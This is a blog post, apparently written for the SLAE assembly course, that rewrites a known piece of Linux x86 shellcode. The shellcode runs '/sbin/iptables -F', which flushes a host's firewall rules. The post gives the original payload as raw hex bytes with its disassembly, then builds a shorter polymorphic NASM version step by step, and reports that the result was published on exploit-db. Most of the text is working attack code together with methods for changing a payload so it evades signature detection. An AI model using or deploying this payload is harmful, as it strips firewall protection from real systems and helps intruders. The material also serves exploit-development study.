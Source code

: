 ```yaml
---
layout: post
title: SLAE 6.2 - Shell-Storm Polymorphism - iptables -F
date:   2019-03-05
categories: [SLAE, Assembly]
---
```

The version that I created from this post was submitted to and accepted by exploit-db.com.  The URL is:
[iptables -f shellcode](https://www.exploit-db.com/shellcodes/46491)


The 2nd piece of shellcode we will try to create a polymorphic version of will be:
[http://shell-storm.org/shellcode/files/shellcode-361.php](http://shell-storm.org/shellcode/files/shellcode-361.php)

The original length is 58 bytes, meaning we have up to 87 bytes maximum to fit in to the exam requirements (no more than 150%).

Let's take a look at the original shellcode and put it through ndisasm just to be sure it does what it claims.
```
jmp	short	callme
main:
	pop	esi
	xor	eax,eax
	mov byte [esi+14],al
	mov byte [esi+17],al
	mov long [esi+18],esi
	lea	 ebx,[esi+15]
	mov long [esi+22],ebx
	mov long [esi+26],eax
	mov 	al,0x0b
	mov	ebx,esi
	lea	ecx,[esi+18]
	lea	edx,[esi+26]
	int	0x80
	

callme:
	call	main
	db '/sbin/iptables#-F#'
```
```
echo -ne '\xeb\x21\x5e\x31\xc0\x88\x46\x0e\x88\x46\x11\x89\x76\x12\x8d\x5e\x0f\x89\x5e\x16\x89\x46\x1a\xb0\x0b\x89\xf3\x8d\x4e\x12\x8d\x56\x1a\xcd\x80\xe8\xda\xff\xff\xff\x2f\x73\x62\x69\x6e\x2f\x69\x70\x74\x61\x62\x6c\x65\x73\x23\x2d\x46\x23' | ndisasm -u -
00000000  EB21              jmp short 0x23
00000002  5E                pop esi
00000003  31C0              xor eax,eax
00000005  88460E            mov [esi+0xe],al
00000008  884611            mov [esi+0x11],al
0000000B  897612            mov [esi+0x12],esi
0000000E  8D5E0F            lea ebx,[esi+0xf]
00000011  895E16            mov [esi+0x16],ebx
00000014  89461A            mov [esi+0x1a],eax
00000017  B00B              mov al,0xb
00000019  89F3              mov ebx,esi
0000001B  8D4E12            lea ecx,[esi+0x12]
0000001E  8D561A            lea edx,[esi+0x1a]
00000021  CD80              int 0x80
00000023  E8DAFFFFFF        call dword 0x2
00000028  2F                das
00000029  7362              jnc 0x8d
0000002B  696E2F69707461    imul ebp,[esi+0x2f],dword 0x61747069
00000032  626C6573          bound ebp,[ebp+0x73]
00000036  23                db 0x23
00000037  2D                db 0x2d
00000038  46                inc esi
00000039  23                db 0x23

```
There is a jump-call-pop to get the string that is used. The #'s are replaced with nulls.  It looks like the strings are then copied to a location after the first string for the args struct as well.  Let's start working on a polymorphic version.

It looks like we can greatly reduce this shellcode if we get rid of all the mov's that copy the string to another location.  We can then just use our already saved reference to the string.

We can use the same technique to store the iptables string in the proper register, jmp-call-pop into EBX.
Then we can zero out EDX with cdq and move a null byte into the '#' location.
```nasm
global _start

section .text

_start:
  jmp short get
code:
  pop ebx
  cdq
  mov [ebx+0xe], dl
get:
  call code
  file: db "/sbin/iptables#-F"
```
Next, we set up the args struct.  The original shellcode copies the string to a location after the original and loads its address to ECX.  It then loads the address of an already used NULL byte in to EDX.
We can just skip all these steps and use our original string.  I will push the addresses to the stack, then move the stack pointer in to the ecx register.  Our edx is already 0'd out from earlier as well.

This is using the same strategy that a normal stack based execve call would use combined with the jmp-call-pop string.  Since we already have addresses stored in registers, it makes sense to do this and greatly reduces our shellcode length.

Also note that in the string variable "file" above, that we have removed the second '#'.  Our strategy pushes a null byte to the stack before the string address instead of replacing another '#' with a null.  Our code is currently as follows:
```nasm
lea eax, [ebx+0xf]  ; get address of '-F'
push edx            ; null terminate the struct
push eax            ; push -F
push ebx            ; push /sbin/iptables
mov ecx, esp        ; address stored as argument
```
The last steps are to move 0xb into EAX and interrupt (int 0x80).  We can use EDX since it is already null to mov into EAX just for a little variation.  Then mov 0xb into AL and make our syscall.
```nasm
mov eax, edx
mov al, 0xb
int 0x80
```
Let's build it and run it.  The objdump seems to be missing a few bytes in the string from /sbin/iptables.   I had to go in a manually insert the 'sb' from sbin and the 'a' from iptables, then it worked as expected.  This may have been an issue with the objdump command that was provided in the video.  It was mentioned that one of the cut command options can cause problems if the dump has large combinations of opcodes in 1 line.  I went ahead and inserted the bytes on my own but may go back to see if changing the command a bit will get it to work at another time.

The final product has reduced the shellcode by 26%! Let's compare the shellcode side by side.
```nasm
jmp short 0x23                                jmp short 0x15
pop esi                                       pop ebx
xor eax,eax                                   cdq
mov [esi+0xe],al                              mov [ebx+0xe], dl
mov [esi+0x11],al                             lea eax, [ebx+0xf]
mov [esi+0x12],esi                            push edx
lea ebx,[esi+0xf]                             push eax
mov [esi+0x16],ebx                            push ebx
mov [esi+0x1a],eax                            mov ecx, esp
mov al,0xb                                    mov eax, edx
                                              mov al, 0xb
mov ebx,esi                                   
lea ecx,[esi+0x12]                            
lea edx,[esi+0x1a]
int 0x80                                      int 0x80
call dword 0x2                                call dword 0x2
das                                           das
jnc 0x8d                                      jnc 0x7f
imul ebp,[esi+0x2f],dword 0x61747069          imul ebp,[esi+0x2f],dword 0x61747069
bound ebp,[ebp+0x73]                          bound ebp,[ebp+0x73]
db 0x23                                       db 0x23
db 0x2d                                       db 0x2d
inc esi                                       inc esi
db 0x23
```

With the big reduction in size, I decided to check on exploit-db for any similar shellcode or of similar length.  It turns out that there is only 1 other shellcode that was on there with the same length (none shorter).  The already published shellcode uses a full stack approach so I submitted the shellcode in the hopes that it will get accepted, which it did!  The link is above at the top of this post.
